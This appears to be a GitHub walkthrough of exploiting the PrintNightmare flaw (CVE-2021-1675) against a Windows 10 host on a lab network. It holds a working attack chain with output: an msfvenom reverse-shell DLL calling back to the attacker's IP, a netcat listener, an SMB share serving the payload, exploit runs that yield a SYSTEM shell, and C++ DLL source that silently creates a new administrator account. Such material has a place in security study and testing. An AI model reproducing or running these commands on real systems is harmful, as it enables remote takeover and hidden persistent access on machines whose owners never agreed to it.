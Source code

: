 Best installation : https://github.com/cube0x0/CVE-2021-1675/issues/19

check is it vulnerable

	┌──(kali㉿kali)-[~/Desktop]
	└─$ rpcdump.py @192.168.200.112  | egrep 'MS-RPRN|MS-PAR'
	
	Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
	Protocol: [MS-RPRN]: Print System Remote Protocol 

Create a dll for reverse connection

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.200.101 LPORT=4444 -f dll -o reverse.dll
	[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
	No encoder specified, outputting raw payload
	Payload size: 460 bytes
	Final size of dll file: 8704 bytes
	Saved as: reverse.dll


Start listener

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ nc -lvnp 4444                 
	listening on [any] 4444 ...


Start smb server for sharing dll

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce]
	└─$ sudo /usr/bin/impacket-smbserver share smb -smb2support
	Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

	[*] Config file parsed
	[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
	[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
	[*] Config file parsed
	[*] Config file parsed
	[*] Config file parsed


Run exploit (i got error but still could get reverse shell somehow)

	┌──(PrintNightmare)(kali㉿kali)-[~/Desktop/printnightmare rce/CVE-2021-1675]
	└─$ python CVE-2021-1675.py valhalla/testuser:'Pass123!'@192.168.200.112 '\\192.168.200.101\share\reverse.dll'          
	[*] Connecting to ncacn_np:192.168.200.112[\PIPE\spoolss]
	[+] Bind OK
	[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
	[*] Executing \??\UNC\192.168.200.101\share\reverse.dll
	[*] Try 1...
	[*] Stage0: 0
	[*] Try 2...
	
Check back netcat listener

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ nc -lvnp 4444
	listening on [any] 4444 ...
	connect to [192.168.200.101] from (UNKNOWN) [192.168.200.112] 62863
	Microsoft Windows [Version 10.0.19043.928]
	(c) Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	whoami
	nt authority\system

	C:\Windows\system32>


You can create your own dll with visual studio. Just create a dll project for c++ and copy code below. Select release and x64 then build it

	#include "pch.h"
	#include <stdlib.h>

	BOOL APIENTRY DllMain(HMODULE hModule,
		DWORD  ul_reason_for_call,
		LPVOID lpReserved
	)
	{
		switch (ul_reason_for_call)
		{
		case DLL_PROCESS_ATTACH:
			system("cmd.exe /c net user adm1n Password123. /add");
			system("cmd.exe /c net localgroup administrators adm1n /add");
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}
	

run exploit

	┌──(PrintNightmare)(kali㉿kali)-[~/Desktop/printnightmare rce/CVE-2021-1675]
	└─$ python CVE-2021-1675.py valhalla/testuser:'Pass123!'@192.168.200.112 '\\192.168.200.101\share\adduser.dll'                                   1 ⨯
	[*] Connecting to ncacn_np:192.168.200.112[\PIPE\spoolss]
	[+] Bind OK
	[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
	[*] Executing \??\UNC\192.168.200.101\share\adduser.dll
	[*] Try 1...
	[*] Stage0: 0
	[*] Try 2...
	[*] Stage0: 0
	[*] Stage2: 0
	[+] Exploit Completed


check current users in target machine

	C:\Users\testuser>net user adm1n
	User name                    adm1n
	Full Name
	Comment
	User's comment
	Country/region code          000 (System Default)
	Account active               Yes
	Account expires              Never

	Password last set            22/09/2021 14:48:05
	Password expires             03/11/2021 14:48:05
	Password changeable          23/09/2021 14:48:05
	Password required            Yes
	User may change password     Yes

	Workstations allowed         All
	Logon script
	User profile
	Home directory
	Last logon                   Never

	Logon hours allowed          All

	Local Group Memberships      *Administrators       *Users
	Global Group memberships     *None
	The command completed successfully.
